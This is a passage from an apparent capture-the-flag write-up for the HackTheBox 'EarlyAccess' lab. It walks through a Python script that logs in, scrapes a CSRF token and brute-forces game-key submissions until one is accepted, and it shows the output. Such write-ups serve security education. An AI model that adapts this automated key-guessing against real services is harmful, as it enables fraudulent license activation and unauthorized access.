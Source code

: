 That token let’s me login:

```

# Login
resp = s.post(f'{url}/login', verify=False,
        data={"_token": csrf, "email": "0xdf@earlyaccess.htb", "password": "0xdf0xdf"})

```

Because I’m using a session object from `requests`, the cookies that come back are stored and sent out in additional requests, keeping me logged in.

Next I can do the same to get the CSRF from the `/key` page:

```

# Get CSRF for key POST
resp = s.get(f'{url}/key', verify=False)
soup = BeautifulSoup(resp.text, 'html.parser')
csrf = soup.find_all('meta', {"name":"csrf-token"})[0]['content']

```

I noticed in Burp that the CSRF didn’t change for successive POSTs to `/key/add`, so I just need to get this once.

Finally, I’ll try submitted keys one by one until that error message isn’t in the response:

```

# Try keys until success
for mn in g3s:
    key = f'{g1}-{g2}-{g3s[mn]}-{g4}-'
    cs = calc_cs(key)
    key = f'{key}{cs}'
    resp = s.post(f'{url}/key/add', verify=False,
            data={"_token": csrf, "key": key})
    if not "Game-key is invalid!" in resp.text:
        print(f"[+] Success with magic number {mn}")
        break

```

Running this takes about 30 seconds before returning success:

```

oxdf@hacky$ time python register_keys.py 
[+] Success with magic number 374

real    0m32.792s
user    0m0.424s
sys     0m0.058s

```
